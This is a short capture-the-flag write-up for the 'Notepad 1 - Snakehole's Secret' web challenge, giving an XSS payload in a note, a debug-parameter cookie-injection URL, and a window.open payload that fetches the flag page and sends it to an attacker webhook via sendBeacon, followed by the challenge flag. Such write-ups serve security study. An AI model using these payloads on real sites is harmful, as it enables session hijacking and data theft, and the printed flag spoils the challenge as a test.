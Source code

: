# Notepad 1 - Snakehole's Secret

### Challenge Description

Janet Snakehole, the rich aristocratic widow with a terrible secret, is being investigated by the FBI's number 1, Burt Tyrannosaurus Macklin. Burt found a website that she visits often. See if you can find anything.  


### Challenge File
[Source](./Handout/snakeholessecret.zip)


### Short Writeup

* Payload in user's note
    * `<img src/onerror="eval(window.name)">`

* Send a page to admin that does the following
    * Set-Cookie with your id.
        * `http://chall.notepad1.gq/find?startsWith=d&debug=y&Set-Cookie=id=f616c83f2f0f188265c7004d81d45723%3B%20path=/get`
    * Open the page again with the following window.name . Now that your XSS payload gets loaded, remove your cookie and fetch flag.
        * `window.open("http://chall.notepad1.gq",name="document.cookie='id=f616c83f2f0f188265c7004d81d45723; expires=Thu, 01 Jan 1970 00:00:00 UTC;path=/get;';document.cookie=x;fetch('/get').then(response=>response.text()).then(data=>navigator.sendBeacon('${webhook}',data));")`

### Author
[Az3z3l](https://twitter.com/Az3z3l)

### Flag
`inctf{youll_never_take_me_alive_ialmvwoawpwe}`